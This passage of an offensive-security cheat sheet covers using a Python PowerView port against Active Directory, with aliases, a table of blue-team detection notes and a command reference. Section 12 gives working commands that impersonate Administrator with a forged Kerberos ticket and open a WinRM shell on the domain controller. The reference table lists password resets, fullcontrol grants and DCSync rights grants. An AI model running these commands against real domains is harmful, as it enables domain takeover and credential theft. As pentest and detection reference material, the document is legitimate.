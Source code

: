
## 🧠 11. Automation Tips

Create aliases or wrapper scripts:

```bash
alias pview='python3 /opt/powerview.py example.com/$(whoami)@dc.example.com -k --dc-ip 10.10.10.10 --no-pass -q'
```

Quick examples:

```bash
pview "Get-DomainUser -Identity admin"
pview "Get-DomainObjectAcl -Identity 'OU=Engineering,DC=example,DC=com' -ResolveGUIDs"
```

---

## 🧩 12. Post‑Exploit Extensions

Once a Kerberos chain completes (e.g., impersonation with a forged TGT):

```bash
getST.py -u2u -impersonate "Administrator" -spn "cifs/dc.example.com" \
  -k -no-pass 'example.com'/'serviceaccount$'
python3 evil_winrmexec.py -ssl -port 5986 -k -no-pass dc.example.com
```

---

## 🛡️ 13. Blue‑Team / Detection Notes

| Suspicious Activity | PowerView Equivalent | Detection Strategy |
|----------------------|----------------------|--------------------|
| Unauthorized password reset | `Set-DomainUserPassword` | Account‑Management 4724 |
| OU ACL changes | `Add-DomainObjectAcl` | Directory‑Service Changes (4662) |
| Enumeration from non‑admin host | `Get-*` queries | LDAP query surge from workstation |
| FullControl assignments | `Rights=fullcontrol` | SIEM correlation of ACEs to unusual users |

---

## 🪄 14. Quick Reference Table

| Purpose | Command |
|----------|----------|
| Enumerate users | `Get-DomainUser` |
| Enumerate computers | `Get-DomainComputer` |
| List groups | `Get-DomainGroup` |
| Check memberships | `Get-DomainGroupMember` |
| Get ACLs | `Get-DomainObjectAcl -ResolveGUIDs` |
| Add ACL | `Add-DomainObjectAcl -Rights fullcontrol` |
| Modify attributes | `Set-DomainObject -Set @{attribute=value}` |
| Reset user password | `Set-DomainUserPassword` |
| Enable account | `Set-DomainObject -Set useraccountcontrol=512` |
| DCSync rights | `Add-DomainObjectAcl -Rights dcsync` |

---